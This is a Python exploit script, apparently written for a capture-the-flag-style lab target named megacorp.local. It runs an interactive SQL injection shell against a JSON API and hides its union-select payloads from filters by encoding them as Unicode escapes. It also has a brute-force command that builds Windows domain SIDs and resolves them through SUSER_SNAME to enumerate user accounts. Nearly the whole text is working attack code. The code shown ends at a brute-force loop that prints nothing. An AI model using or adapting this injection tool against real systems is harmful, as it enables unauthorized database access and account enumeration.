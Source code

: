 ```python
import requests
import json
import cmd
import struct
import time

url = "http://megacorp.local/api/getColleagues"
header = {"Content-Type":"application/json;charset=utf-8"}
proxy = {"http":"127.0.0.1:8080"}
# querys = "a' union select 1,2,3,'helloemail',5-- -"
# dict object, use json;
# data = {"name": gen_payload(querys)}
# req = requests.post(url, json=data, headers=header, proxies=proxy)

def gen_payload(query):
    payload = ""
    for char in query:
        payload += r"\u{:04x}".format(ord(char))
    return payload

def get_sid(n):
    domain = '0x0105000000000005150000001c00d1bcd181f1492bdfc236'
    user = struct.pack('<I', int(n))  # user output: '\xf4\x01\x00\x00'
    # convert to f4010000
    user = user.hex()
    return f"{domain}{user}"

def make_request(payload):
    payload = gen_payload(payload)
    data = '{"name":"' + payload + '"}'
    req = requests.post(url, data=data, headers=header, proxies=proxy)
    return req.text


class exploit(cmd.Cmd):
    prompt = "Pleasesub > "

    def default(self, line):
        payload = gen_payload(line)
        # str, use data
        data = '{"name":"' + payload + '"}'
        req = requests.post(url, data=data, headers=header, proxies=proxy)
        print(req.text)

    def do_union(self, line):
        payload = "a' union select 1,2,3," + line + ",5-- -"
        payload = gen_payload(payload)
        data = '{"name":"' + payload + '"}'
        req = requests.post(url, data=data, headers=header, proxies=proxy)
        try:
            js = json.loads(req.text)
            print(js[0]['email'])
        except:
            print(req.text)
        #print(payload)

    def do_brute(self, line):
        start, stop = line.split(" ")
        for i in range(int(start), int(stop)):
            sid = get_sid(i)
            payload = "a' union select 1,2,3,SUSER_SNAME(" + sid + "),5-- -"
            rtext = make_request(payload)
            #print(payload)
```